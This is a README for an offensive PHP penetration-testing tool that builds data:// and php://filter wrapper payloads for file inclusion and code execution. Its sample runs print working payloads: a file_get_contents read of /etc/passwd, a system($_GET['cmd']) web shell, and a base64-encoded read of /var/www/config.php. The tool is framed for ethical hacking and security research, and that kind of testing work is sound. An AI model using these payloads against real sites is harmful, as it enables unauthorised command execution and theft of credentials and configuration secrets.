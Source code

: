 # php_data_Baypass Automation Tool

## Overview
This is an advanced penetration testing tool for automating the discovery and exploitation of PHP data exfiltration vulnerabilities in web applications. It allows ethical hackers and security researchers to efficiently test for issues like local file inclusion, remote code execution, path traversal etc.

The tool is written in Python and works on Linux platforms. It has an intuitive text-based interface to guide the user through generating optimized payloads for injection testing.
Installation


```
git clone https://github.com/MolCoteH/LFI-RFI
cd LFI-RFI
```
# Usage

## To start the tool, simply run:

```
python php_data_Baypass.py
```
# This will present an interactive menu-driven interface to configure payload options.

## The key steps are:

    Select the writing model (data://, php://filter etc.)
    Choose a mime-type for the data (text/plain, application/x-php etc.)
    Pick a built-in payload (file_get_contents, system command execution etc.)
    Set payload parameters like filenames, commands etc.
    The tool constructs and displays the complete payload
    Option to directly test the payload on a target site

## Payloads

The tool contains the following well-commented payloads spanning multiple exfiltration techniques:

    File Inclusion - Extract arbitrary files from the system
    Code Execution - Execute OS commands via backdoors like system()
    File Reads - Exfiltrate sensitive data like config files
    Path Traversal - Access files outside web directories
    Source Code Disclosure - Dump source code of application pages
    Protocol Bypasses - Use obscure data types to bypass whitelist
    PHP Wrapper Tests - Check for misconfigurations in wrappers like php://input

Users can also easily add custom payloads to the existing codebase.

## Sample Runs

Here are some sample runs showing practical usage:
# LFI Payload with /etc/passwd

```
python php_data_Baypass.py

Select model > 2. data://
Choose data type > 1. text/plain
Select payload > 4. file inclusion 
Enter filename > /etc/passwd

Generated payload:

data://text/plain,<?php echo file_get_contents('/etc/passwd');?>
```
# Get OS Shell with System Execution:
```
python php_data_Baypass.py

Select model > 1. data:
Choose data type > 2. application/x-php
Select payload > 2. system execution
Append command > &cmd=ls -la

Generated payload:  

data:application/x-php,<?php system($_GET['cmd']);?>&cmd=ls -la
```
# Exfiltrate PHP Config in Base64 Format
```
python php_data_Baypass.py

Select model > 2. data://  
Choose data type > 1. text/plain
Select payload > 8. base64 file read
Enter filename > /var/www/config.php

Generated payload:

data://text/plain;base64,PD9waHAgZWNobyBiYXNlNjRfZW5jb2RlKGZpbGVfZ2V0X2NvbnRlbnRzKCcvdmFyL3d3dy9jb25maWcucGhwJykpOz8+
```
This provides an overview of the key capabilities of the tool. It simplifies and automates the manual process of PHP penetration testing and vulnerability discovery. The modular design allows rapid enhancements as well.
